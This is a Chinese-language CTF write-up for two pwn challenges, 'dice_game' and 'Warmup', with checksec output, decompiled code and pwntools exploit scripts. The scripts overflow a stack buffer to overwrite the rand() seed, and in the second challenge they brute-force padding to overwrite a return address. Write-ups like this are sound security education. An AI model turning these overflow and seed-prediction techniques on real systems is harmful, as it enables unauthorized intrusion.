 title: 攻防世界 Pwn进阶 writeup
author: 7h4mid4
tags:
  - pwn
  - writeup
  - CTF
categories:
  - pwn
date: 2019-09-05 15:00:00
---
### dice_game

#### 查看保护

```
gdb dice_game
checksec dice_game
```
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL

```


#### ida源码

##### main
```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf[55]; // [rsp+0h] [rbp-50h]
  char v5; // [rsp+37h] [rbp-19h]
  ssize_t v6; // [rsp+38h] [rbp-18h]
  unsigned int seed[2]; // [rsp+40h] [rbp-10h]
  unsigned int v8; // [rsp+4Ch] [rbp-4h]

  memset(buf, 0, 0x30uLL);
  *(_QWORD *)seed = time(0LL);
  printf("Welcome, let me know your name: ", a2);
  fflush(stdout);
  v6 = read(0, buf, 0x50uLL);
  if ( v6 <= 49 )
    buf[v6 - 1] = 0;
  printf("Hi, %s. Let's play a game.\n", buf);
  fflush(stdout);
  srand(seed[0]);
  v8 = 1;
  v5 = 0;
  while ( 1 )
  {
    printf("Game %d/50\n", v8);
    v5 = sub_A20();
    fflush(stdout);
    if ( v5 != 1 )
      break;
    if ( v8 == 50 )
    {
      sub_B28((__int64)buf);
      break;
    }
    ++v8;
  }
  puts("Bye bye!");
  return 0LL;
}
```

#### sub_A20

```
signed __int64 sub_A20()
{
  signed __int64 result; // rax
  __int16 v1; // [rsp+Ch] [rbp-4h]
  __int16 v2; // [rsp+Eh] [rbp-2h]

  printf("Give me the point(1~6): ");
  fflush(stdout);
  _isoc99_scanf("%hd", &v1);
  if ( v1 > 0 && v1 <= 6 )
  {
    v2 = rand() % 6 + 1;
    if ( v1 <= 0 || v1 > 6 || v2 <= 0 || v2 > 6 )
      _assert_fail("(point>=1 && point<=6) && (sPoint>=1 && sPoint<=6)", "dice_game.c", 0x18u, "dice_game");
    if ( v1 == v2 )
    {
      puts("You win.");
      result = 1LL;
    }
    else
    {
      puts("You lost.");
      result = 0LL;
    }
  }
  else
  {
    puts("Invalid value!");
    result = 0LL;
  }
  return result;
}
```

#### sub_B28

```
int __fastcall sub_B28(__int64 a1)
{
  char s; // [rsp+10h] [rbp-70h]
  FILE *stream; // [rsp+78h] [rbp-8h]

  printf("Congrats %s\n", a1);
  stream = fopen("flag", "r");
  fgets(&s, 100, stream);
  puts(&s);
  return fflush(stdout);
}
```

#### 分析

对时间确定的随机数种子进行50次猜测，都正确则读取本目录下的flag。

因为对于随机数来说，只要srand()相同，那么后面的随机数就是固定的。

只要栈溢出覆盖掉随机数种子为一个固定的值，然后本地写出随机数往上填就是。

通过ida可以直观的看出填充0x40h溢出到随机数种子。

#### 随机数生成源码：

random.c

```
#include <stdlib.h>
#include <stdio.h>
#include <time.h>

int main(int argc, char *argv[])
{
        srand(0);
        for(int i = 0;i < 50;i++)
        {
                printf("%d\n", rand()%6+1);
        }
        return 0;
}
```

```
gcc random.c -o random
```

#### exp

exp.py

```
rom pwn import *
#context.log_level = 'debug'
io = remote('111.198.29.45' , 53797)
#io = process("/.dice_game")
random = process("./random")
#code = ELF(".")
#libc = ELF("./libc-2.23.so")

def debug():
    print io.pid
    pause()
def dbg(script=''):
    gdb.attach(io, gdbscript=script)

def exploit():
    payload = 'a' * 0x40 + p64(0)
    io.recvuntil('know your name: ')
    io.sendline(payload)

    for i in range(50):
        io.recvuntil('Give me the point(1~6): ')
        number = random.recvline()
        number = int(number)
        print 'Game %d ---> %d' % (i+1, number)
        io.sendline(str(number))
    io.recvline()
    io.interactive()
exploit()

```


#### 补上网上大哥的writeup，比较简洁明了

原文链接：http://wh4lter.xyz/2019/08/06/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C-pwn-%E9%AB%98%E6%89%8B%E8%BF%9B%E9%98%B6%E5%8C%BA-part1/

##### 使用ctypes模块在Python中使用C

我想这题的本意就是这样，要不然给出一个libc岂不没用？

```
from pwn import *
from ctypes import *
context.log_level = 'debug'
libc = CDLL('libc.so.6')
p = process('dice_game')
p.sendlineafter('let me know your name:','A'*0x40+p64(0))
for i in range(50):
    randvalue = libc.rand(0)%6+1
    p.sendlineafter('Give me the point(1~6):',str(randvalue))
p.interactive()
```


### Warmup

爆破栈溢出的空间

#### exp：

```
from pwn import *

# context.log_level = 'debug'
payload =65 * 'A' + p64(0X40060D)
vuln_addr = ''
i = 1

while 1:
    log.info('testing padding = ' + str(i))
    r = remote('111.198.29.45', 41241)
    r.recvuntil('WOW:')
    vuln_addr = int(r.recvline()[:-1], 16)
    print payload
    r.sendline(payload)
    i += 1
    try:
        flag = r.recvline()
        print flag
        break
    except:
        payload = 'A' + payload
    r.close()
```

从1开始爆破会在`‘A’ * 64`的时候重新执行main函数，所以第二次开始把爆破起始点选择在`‘A’ * 65`的地方。
在填充72个A的时候爆出flag。